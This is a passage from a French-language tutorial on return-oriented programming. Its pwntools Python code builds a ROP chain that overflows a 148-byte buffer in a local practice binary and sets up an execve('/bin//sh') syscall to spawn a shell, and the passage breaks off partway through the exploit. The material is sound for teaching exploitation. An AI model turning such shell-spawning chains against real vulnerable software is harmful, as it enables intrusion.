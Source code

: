 ```python

p += pack('<I', 0x080481c9) 		# pop ebx ; ret
p += pack('<I', 0x080ea000) 		# Dans ebx, nous mettons l'adresse du début de .data, qui contient "/bin//sh" suivi de null bytes

p += pack('<I', 0x080de7ad) 		# pop ecx ; ret
p += pack('<I', 0x00000000) 		# On met ecx à 0

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x00000000) 		# On met edx à 0

p += pack('<I', 0x08049323) 		# xor eax, eax ; ret

for i in range(11):			# Afin d'avoir eax = 11, on boucle 11 fois
	p += pack('<I', 0x0804812c)	# inc eax ; ret

p += pack('<I', 0x0806c985) 		# int 0x80
```

Rappelez-vous cependant que cette suite de gadgets, appelée **ropchain**, est initiée lors du retour de la fonction. Donc la première instruction de cette **ropchain** doit écraser la sauvegarde de `EIP` de la fonction appelante.

Nous avons vu en détails dans différents articles comment trouver la taille du buffer à allouer avant d'écraser la sauvegarde de `EIP`, et dans mon cas c'est un buffer de 148 octets. Ainsi, mon exploit ressemble à cela en python, en utilisant `pwntools`

```python
#coding: utf-8

from pwn import *
from struct import pack

r = process("./rop")

p = "A"*148

p += pack('<I', 0x0806ed1a) 	# pop edx ; ret
p += pack('<I', 0x080ea000) 	# Dans edx, nous mettons l'adresse du début de .data

p += pack('<I', 0x080b8056) 	# pop eax ; ret
p += '/bin'						# Dans eax, nous mettons la chaine de caractères "/bin"

p += pack('<I', 0x080546db) 	# mov dword ptr [edx], eax ; ret | Ce qui permet d'écrire "/bin" dans .data

p += pack('<I', 0x0806ed1a) 	# pop edx ; ret
p += pack('<I', 0x080ea004) 	# Dans edx, nous mettons l'adresse de .data + 4 pour prévoir "//sh"

p += pack('<I', 0x080b8056) 	# pop eax ; ret
p += '//sh'						# Nous mettons "//sh" dans eax

p += pack('<I', 0x080546db) 	# mov dword ptr [edx], eax ; ret | Et nous écrivons "//sh" juste après "/bin"

p += pack('<I', 0x0806ed1a) 	# pop edx ; ret
p += pack('<I', 0x080ea008) 	# Dans edx, nous mettons l'adresse de .data + 8, donc après la chaine de caractères "/bin//sh"

p += pack('<I', 0x08049323) 	# xor eax, eax ; ret

p += pack('<I', 0x080546db) 	# mov dword ptr [edx], eax ; ret | Et on s'assure que cet emplacement contient des 0x00 pour terminer la chaine de caractères

```